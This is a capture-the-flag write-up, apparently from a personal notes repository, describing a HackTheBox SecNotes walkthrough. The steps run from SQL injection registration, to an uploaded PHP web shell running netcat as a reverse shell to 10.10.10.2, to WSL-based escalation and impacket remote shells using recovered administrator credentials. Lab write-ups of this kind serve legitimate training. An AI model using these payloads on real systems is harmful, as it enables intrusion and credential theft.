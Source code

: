 # Escalation Path: Windows Subsystem for Linux

### Overview

Using HTB SecNotes - write up here: https://github.com/lukepatterson31/htb/tree/main/machines/secnotes/secnotes.md

Involves techniques from [PayloadsAllTheThings Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl)

### Gaining a Foothold

The username parameter is vulnerable to SQLi, when registering a new user use the username `' OR 1=1;#` or
`'OR 1 OR'`. Log in as the new user to see all notes, one of them contains SMB credentials for tyler.

The SMB share is the root directory for the web server on port 8808. Uploading .asp or .aspx files doesn't 
work but .php files do.

Upload a static Windows netcat binary and a basic php shell that will execute the netcat binary

```
# rev.php
<?php system('nc.exe -e cmd.exe 10.10.10.2 4444); ?>
```
Start a netcat listener and navigate to the php shell. This gives us a reverse shell as tyler

### Escalation via WSL

Look for bash.exe/wsl.exe:

```
where /R C:\Windows bash.exe
where /R C:\Windows wsl.exe
```

Run bash.exe to get a linux prompt then upgrade your shell with python:

`python -c 'import pty;pty.spawn("/bin/bash")'`

Do some basic enumeration, check history, sudo -l, etc.

Find the administrator credentials in root history and use impacket tools to get a remote shell as system

```
psexec.py administrator:'password'@10.10.10.97
smbexec.py administrator:'password'@10.10.10.97
wmiexec.py administrator:'password'@10.10.10.97
```
